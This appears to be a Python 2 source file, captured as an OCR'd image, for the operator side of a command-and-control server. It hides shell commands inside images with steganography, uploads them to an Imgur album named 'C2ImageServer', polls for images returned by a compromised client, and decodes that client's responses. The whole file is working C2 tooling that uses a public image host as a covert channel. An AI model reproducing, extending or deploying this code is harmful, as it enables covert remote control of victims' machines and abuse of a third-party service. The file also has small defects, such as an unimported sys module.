 ```py
from imgurpython import ImgurClient
import StegoText, random, time, ast, base64

def get_input(string):
    ''' Get input from console regardless of python 2 or 3 '''
    try:
        return raw_input(string)
    except:
        return input(string)

def create_command_message(uid, command):
    command = str(base64.b32encode(command.replace('\n','')))
    return "{'uuid':'" + uid + "','command':'" + command + "'}"

def send_command_message(uid, client_os, image_url):
    command = get_input(client_os + "@" + uid + ">")
    steg_path = StegoText.hide_message(image_url, create_command_message(uid, command), "Imgur1.png", True)
    print "Sending command to client ..."
    uploaded = client.upload_from_path(steg_path)
    client.album_add_images(a[0].id, uploaded['id'])

    if command == "quit":
        sys.exit()

    return uploaded['datetime']

def authenticate():
    client_id = '<REPLACE WITH YOUR IMGUR CLIENT ID>'
    client_secret = '<REPLACE WITH YOUR IMGUR CLIENT SECRET>'

    client = ImgurClient(client_id, client_secret)
    authorization_url = client.get_auth_url('pin')

    print("Go to the following URL: {0}".format(authorization_url))
    pin = get_input("Enter pin code: ")

    credentials = client.authorize(pin, 'pin')
    client.set_user_auth(credentials['access_token'], credentials['refresh_token'])

    return client

client = authenticate()
a = client.get_account_albums("C2ImageServer")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

print "Awaiting client connection ..."

loop = True
while loop:
    time.sleep(5)
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['status'] == "ready":
            print "Client connected:\n"
            print "Client UUID:" + client_dict['uuid']
            print "Client OS:" + client_dict['os']
        else:
            print base64.b32decode(client_dict['response'])
```